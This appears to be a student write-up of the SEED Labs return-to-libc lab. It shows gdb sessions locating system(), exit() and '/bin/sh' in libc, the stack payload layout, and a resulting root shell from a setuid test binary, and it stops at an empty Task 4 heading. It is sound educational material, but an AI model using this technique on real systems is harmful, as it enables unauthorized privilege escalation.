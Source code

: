 # Answer in my observation

* In this lab, I will use different size of buffer instead of 12-byte default.
```console
    [03/22/24]seed@VM:~/.../Labsetup$ gcc -m32 -DBUF_SIZE=20 -fno-stack-protector -z noexecstack -o retlib retlib.c
    [03/22/24]seed@VM:~/.../Labsetup$ sudo chown root retlib
    [03/22/24]seed@VM:~/.../Labsetup$ sudo chmod 4755 retlib
```

## Task 1
- Running the program.
- Finding address of `system()` and `exit()` function in library.

```console
    [03/22/24]seed@VM:~/.../Labsetup$ gdb retlib 
    GNU gdb (Ubuntu 9.2-0ubuntu1~20.04) 9.2
    Copyright (C) 2020 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.
    Type "show copying" and "show warranty" for details.
    This GDB was configured as "x86_64-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    <http://www.gnu.org/software/gdb/bugs/>.
    Find the GDB manual and other documentation resources online at:
        <http://www.gnu.org/software/gdb/documentation/>.

    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    /opt/gdbpeda/lib/shellcode.py:24: SyntaxWarning: "is" with a literal. Did you mean "=="?
    if sys.version_info.major is 3:
    /opt/gdbpeda/lib/shellcode.py:379: SyntaxWarning: "is" with a literal. Did you mean "=="?
    if pyversion is 3:
    Reading symbols from retlib...
    (No debugging symbols found in retlib)
    gdb-peda$ run
    Starting program: /home/seed/ret_to_libc/Labsetup/retlib 
    Address of input[] inside main():  0xffffd120
    Input size: 0
    Address of buffer[] inside bof():  0xffffcddc
    Frame Pointer value inside bof():  0xffffd108
    (^_^)(^_^) Returned Properly (^_^)(^_^)
    [Inferior 1 (process 3317) exited with code 01]
    Warning: not running
    gdb-peda$ p system
    $1 = {<text variable, no debug info>} 0xf7e12420 <system>
    gdb-peda$ p exit
    $2 = {<text variable, no debug info>} 0xf7e04f80 <exit>
    gdb-peda$ quit
```

## Task 2
- To find the address of `/bin/sh`:
+ Using `gdb-peda`:
```
    gdb-peda$ vmmap
    Warning: not running
    Start      End        Perm      Name
    0x56556000 0x56556454 rx-p      /home/seed/ret_to_libc/Labsetup/retlib
    0x565551b4 0x565572d8 r--p      /home/seed/ret_to_libc/Labsetup/retlib
    0x56558ec8 0x56559010 rw-p      /home/seed/ret_to_libc/Labsetup/retlib
    gdb-peda$ break main
    Breakpoint 1 at 0x565562f8
    gdb-peda$ run
    Starting program: /home/seed/ret_to_libc/Labsetup/retlib 
    [----------------------------------registers-----------------------------------]
    EAX: 0xf7fb6808 --> 0xffffd5cc --> 0xffffd734 ("SHELL=/bin/bash")
    EBX: 0x0 
    ECX: 0x635fc72d 
    EDX: 0xffffd554 --> 0x0 
    ESI: 0xf7fb4000 --> 0x1e6d6c 
    EDI: 0xf7fb4000 --> 0x1e6d6c 
    EBP: 0x0 
    ESP: 0xffffd52c --> 0xf7debee5 (<__libc_start_main+245>:        add    esp,0x10)
    EIP: 0x565562f8 (<main>:        endbr32)
    EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    0x565562f3 <foo+58>: mov    ebx,DWORD PTR [ebp-0x4]
    0x565562f6 <foo+61>: leave  
    0x565562f7 <foo+62>: ret    
    => 0x565562f8 <main>:   endbr32 
    0x565562fc <main+4>: lea    ecx,[esp+0x4]
    0x56556300 <main+8>: and    esp,0xfffffff0
    0x56556303 <main+11>:        push   DWORD PTR [ecx-0x4]
    0x56556306 <main+14>:        push   ebp
    [------------------------------------stack-------------------------------------]
    0000| 0xffffd52c --> 0xf7debee5 (<__libc_start_main+245>:       add    esp,0x10)
    0004| 0xffffd530 --> 0x1 
    0008| 0xffffd534 --> 0xffffd5c4 --> 0xffffd70d ("/home/seed/ret_to_libc/Labsetup/retlib")
    0012| 0xffffd538 --> 0xffffd5cc --> 0xffffd734 ("SHELL=/bin/bash")
    0016| 0xffffd53c --> 0xffffd554 --> 0x0 
    0020| 0xffffd540 --> 0xf7fb4000 --> 0x1e6d6c 
    0024| 0xffffd544 --> 0xf7ffd000 --> 0x2bf24 
    0028| 0xffffd548 --> 0xffffd5a8 --> 0xffffd5c4 --> 0xffffd70d ("/home/seed/ret_to_libc/Labsetup/retlib")
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value

    Breakpoint 1, 0x565562f8 in main ()
    gdb-peda$ vmmap
    Start      End        Perm      Name
    0x56555000 0x56556000 r--p      /home/seed/ret_to_libc/Labsetup/retlib
    0x56556000 0x56557000 r-xp      /home/seed/ret_to_libc/Labsetup/retlib
    0x56557000 0x56558000 r--p      /home/seed/ret_to_libc/Labsetup/retlib
    0x56558000 0x56559000 r--p      /home/seed/ret_to_libc/Labsetup/retlib
    0x56559000 0x5655a000 rw-p      /home/seed/ret_to_libc/Labsetup/retlib
    0xf7dcd000 0xf7dea000 r--p      /usr/lib32/libc-2.31.so
    0xf7dea000 0xf7f42000 r-xp      /usr/lib32/libc-2.31.so
    0xf7f42000 0xf7fb2000 r--p      /usr/lib32/libc-2.31.so
    0xf7fb2000 0xf7fb4000 r--p      /usr/lib32/libc-2.31.so
    0xf7fb4000 0xf7fb6000 rw-p      /usr/lib32/libc-2.31.so
    0xf7fb6000 0xf7fb8000 rw-p      mapped
    0xf7fcb000 0xf7fcd000 rw-p      mapped
    0xf7fcd000 0xf7fd0000 r--p      [vvar]
    0xf7fd0000 0xf7fd1000 r-xp      [vdso]
    0xf7fd1000 0xf7fd2000 r--p      /usr/lib32/ld-2.31.so
    0xf7fd2000 0xf7ff0000 r-xp      /usr/lib32/ld-2.31.so
    0xf7ff0000 0xf7ffb000 r--p      /usr/lib32/ld-2.31.so
    0xf7ffc000 0xf7ffd000 r--p      /usr/lib32/ld-2.31.so
    0xf7ffd000 0xf7ffe000 rw-p      /usr/lib32/ld-2.31.so
    0xfffdd000 0xffffe000 rw-p      [stack]
    gdb-peda$ find "/bin/sh"
    Searching for '/bin/sh' in: None ranges
    Found 2 results, display max 2 items:
    libc : 0xf7f5c352 ("/bin/sh")
    [stack] : 0xffffd73c ("/bin/sh")

```

+ Finding libc version using `info proc map` command in `gdb-peda` and `strings` command to find address of `/bin/sh`.

```
    gdb-peda$ info proc map
    process 4043
    Mapped address spaces:

            Start Addr   End Addr       Size     Offset objfile
            0x56555000 0x56556000     0x1000        0x0 /home/seed/ret_to_libc/Labsetup/retlib
            0x56556000 0x56557000     0x1000     0x1000 /home/seed/ret_to_libc/Labsetup/retlib
            0x56557000 0x56558000     0x1000     0x2000 /home/seed/ret_to_libc/Labsetup/retlib
            0x56558000 0x56559000     0x1000     0x2000 /home/seed/ret_to_libc/Labsetup/retlib
            0x56559000 0x5655a000     0x1000     0x3000 /home/seed/ret_to_libc/Labsetup/retlib
            0xf7dcd000 0xf7dea000    0x1d000        0x0 /usr/lib32/libc-2.31.so
            0xf7dea000 0xf7f42000   0x158000    0x1d000 /usr/lib32/libc-2.31.so
            0xf7f42000 0xf7fb2000    0x70000   0x175000 /usr/lib32/libc-2.31.so
            0xf7fb2000 0xf7fb4000     0x2000   0x1e4000 /usr/lib32/libc-2.31.so
            0xf7fb4000 0xf7fb6000     0x2000   0x1e6000 /usr/lib32/libc-2.31.so
            0xf7fb6000 0xf7fb8000     0x2000        0x0 
            0xf7fcb000 0xf7fcd000     0x2000        0x0 
            0xf7fcd000 0xf7fd0000     0x3000        0x0 [vvar]
            0xf7fd0000 0xf7fd1000     0x1000        0x0 [vdso]
            0xf7fd1000 0xf7fd2000     0x1000        0x0 /usr/lib32/ld-2.31.so
            0xf7fd2000 0xf7ff0000    0x1e000     0x1000 /usr/lib32/ld-2.31.so
            0xf7ff0000 0xf7ffb000     0xb000    0x1f000 /usr/lib32/ld-2.31.so
            0xf7ffc000 0xf7ffd000     0x1000    0x2a000 /usr/lib32/ld-2.31.so
            0xf7ffd000 0xf7ffe000     0x1000    0x2b000 /usr/lib32/ld-2.31.so
            0xfffdd000 0xffffe000    0x21000        0x0 [stack]
    gdb-peda$ strings -a -t x /usr/lib32/libc-2.31.so | grep "/bin/sh"
    Warning: failed to get memory map for -a
    gdb-peda$ quit
    [03/22/24]seed@VM:~/.../Labsetup$ strings -a -t x /usr/lib32/libc-2.31.so | grep "/bin/sh"
    18f352 /bin/sh
```
&rarr; We can see that the first address of libc `/usr/lib32/libc-2.31.so` is 0xf7dcd000 and the address of `/bin/sh` is 18f352. Adding together we will have address of `/bin/sh` is 0xf7f5c352.

## Task 3
- After having address of `/bin/sh`, `system()` and `exit()`, we will succesffuly attack.
```
    [03/22/24]seed@VM:~/.../Labsetup$ ./retlib 
    Address of input[] inside main():  0xffffd170
    Input size: 48
    Address of buffer[] inside bof():  0xffffd138
    Frame Pointer value inside bof():  0xffffd158
    # id
    uid=1000(seed) gid=1000(seed) euid=0(root) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)
    # whoami
    root
    # 
```

- Explanation:
+ First we will check the stack's structure when the program call `bof()` function, using `disassemble <function's name>` command, we can see that the buffer overflow is from line that has `strcpy()`.
+ We will see the distance between `$ebp` and `buffer` variable is 0x20, which is 32 bytes.
+ To attack the program successfully, we will need: 32 bytes `buffer` + 4 bytes padding + 4 bytes `system()`(Y) + 4 bytes `exit()`(Z) + 4 bytes `/bin/sh`(X).
+ The `exit()` function is used as a return address of `system()` function, its address can be replaced with other value but it will send errror `Segmentation fault` when `exit` the shell. If we only use address of `/bin/sh` for `system()`, the attack will not be successful.
+ If we only change the file name of `retlib` to `newretlib`, the attack is still successful because the stack structure is not change.

## Task 4
